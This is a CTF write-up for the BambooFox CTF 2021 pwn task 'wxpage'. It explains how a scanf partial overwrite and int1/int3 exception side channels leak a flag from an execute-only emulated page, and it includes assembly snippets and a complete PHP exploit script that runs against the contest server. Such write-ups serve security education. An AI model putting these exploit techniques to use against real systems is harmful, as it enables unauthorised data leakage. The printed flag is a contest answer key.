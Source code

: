 # wxpage - BambooFox CTF 2021 (pwn, 498p)

## Introduction
wxpage is a pwn task.

An archive containing a binary, a copy of the unicorn engine library and a
Dockerfile is given.

The goal of this task is to leak data from an executable-only page.

## Reverse engineering
The binary first open the flag file and reads it. The flag is 32 (`0x20`)
character long.

The binary then reads 32 unsigned bytes from the standard input with
`scanf("%hhu")` on top of the flag.

```c
int fd = open("flag", O_RDONLY);
read(fd, flag, 0x20);
close(fd);

for(size_t i = 0; i < 0x20; i++)
	scanf("%hhu", flag + i);
```

The binary then uses unicorn engine to emulate an x86 processor. This processor
has memory mapped from `0x01234000` to `0x01236000`. The flag (overwritten by
`scanf` is written to `0x01234000`)

The binary hooks memory accesses with `hook_mem64` to make sure the emulated
code can only access the `0x01235000` -- `0x01236000` range.

It also hooks syscalls to implement a `puts` syscall (when `rax` is set to 1).

## Vulnerability
It is possible to partially overwrite the flag by feeding invalid values to
`scanf` such as `-`.

## Exploitation
Now that it is possible to partially overwrite the flag, it becomes possible to
write a code that will load a specific byte of the flag, compare it, and do
specific actions depending on the result of this comparision.

There are many ways to show the result of an operation:
- use the `puts` syscall
- loop indefinitely
- throw exceptions

The method presented in this write-up is the last one because it requires only
two bytes. Opcodes `int3` and `int1` both require one byte and make the emulator
stop with different errors.

The following code can be used to leak the 2nd byte of the flag:
```assembly
/* B0 --    */ mov  al, --
/* F6 C0 xx */ test al, 1 << bit
/* 74 01    */ jz 1
/* F1       */ int1
/* CC       */ int3
```

This construct can be used to leak every bytes but the first (because of the
`0xB0` and the 5 last bytes. This can be done by sliding the code:

```
flag| attempts
----+---------
 00 | B0 90 90
 01 | -- B0 90
 02 | F6 -- B0
 03 | C0 F6 --
 04 | ?? C0 F6
 05 | 74 ?? C0
 06 | 02 74 ??
 07 | 0F 02 74
 08 | 05 0F 02
 09 | 90 05 0F
 0A | 90 90 05
 0B | 90 90 90
     ...
 1F | 90 90 90
```

The last few bytes can be leaked with a different method:
```assembly
/* 68 07 40 23 01 */ push 0x01234007
/* EB --          */ jmp  load

/* F6 C0 xx       */ test al, 1 << bit
/* 74 01          */ jz 1
/* F1             */ int1
/* CC             */ int3

/* 90 90 90 ...   */ nop sled

/* B0 --          */ mov al, --
/* C3             */ ret
```

By combining the two methods, it is possible to leak every bytes except the
first and last bytes. The missing bytes can be guessed by filling the flag
format (first byte is the `f` of `flag` and last byte is a `}`)

## Exploitation
**Flag**: `flag{0nly_write_and_ex3c_AC1z5A}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php
const HOST = "chall.ctf.bamboofox.tw";
const PORT = 10105;

function remote(array $shellcode) : string
{
	if(sizeof($shellcode) > 0x20)
		throw new Exception("Shellcode is too big");
	$shellcode = array_pad($shellcode, 0x20, 0x90);

	$data = implode(" ", $shellcode) . "\n";
	$fp   = fsockopen(HOST, PORT);
	fwrite($fp, $data);
	return fread($fp, 4096);
}

function leakBit(int $byte, int $bit) : bool
{
	if($bit >= 7) return false;
	if($bit <  0) return false;

	if($byte < 1)
		throw new Exception("Cannot leak byte 0");

	$shellcode = array_fill(0, $byte - 1, 0x90); // nop sled

	// mov al flag[x]
	$shellcode[] = 0xB0;
	$shellcode[] = '-';

	// test al, $bit
	$shellcode[] = 0xF6;
	$shellcode[] = 0xC0;
	$shellcode[] = 1 << $bit;

	// jz 1
	$shellcode[] = 0x74;
	$shellcode[] = 0x01;

	// int1
	$shellcode[] = 0xF1;

	// int3
	$shellcode[] = 0xCC;

	$data = remote($shellcode);
	return false !== strpos($data, "UC_ERR_INSN_INVALID");
}

function leakBit_last(int $byte, int $bit) : bool
{
	if($bit >= 7) return false;
	if($bit <  0) return false;

	$shellcode = [];

	// push 0x1234007
	$shellcode[] = 0x68;
	$shellcode[] = 0x07;
	$shellcode[] = 0x40;
	$shellcode[] = 0x23;
	$shellcode[] = 0x01;

	// jmp load
	$shellcode[] = 0xEB;
	$shellcode[] = $byte - (sizeof($shellcode) + 1) - 1;

	// 0x01234007:
	// test al, $bit
	$shellcode[] = 0xF6;
	$shellcode[] = 0xC0;
	$shellcode[] = 1 << $bit;

	// jz 1
	$shellcode[] = 0x74;
	$shellcode[] = 0x01;

	// int1
	$shellcode[] = 0xF1;

	// int3
	$shellcode[] = 0xCC;

	// pad until load
	$shellcode   = array_pad($shellcode, $byte - 1, 0x90);

	// mov al flag[x]
	$shellcode[] = 0xB0;
	$shellcode[] = '-';

	// ret
	$shellcode[] = 0xC3;

	$data = remote($shellcode);
	return false !== strpos($data, "UC_ERR_INSN_INVALID");
}

function leakByte(int $byte) : int
{
	$f = ["leakBit", "leakBit_last"][$byte > 0x18];

	$char = 0;
	for($i = 0; $i < 7; $i++)
		$char |= $f($byte, $i) << $i;
	return $char;
}

$flag = "?";

while(strlen($flag) < 0x20 - 1) {
	$byte  = leakByte(strlen($flag));
	$flag .= chr($byte);
	printf("Flag: %s (%X)\n", $flag, $byte);
}
```

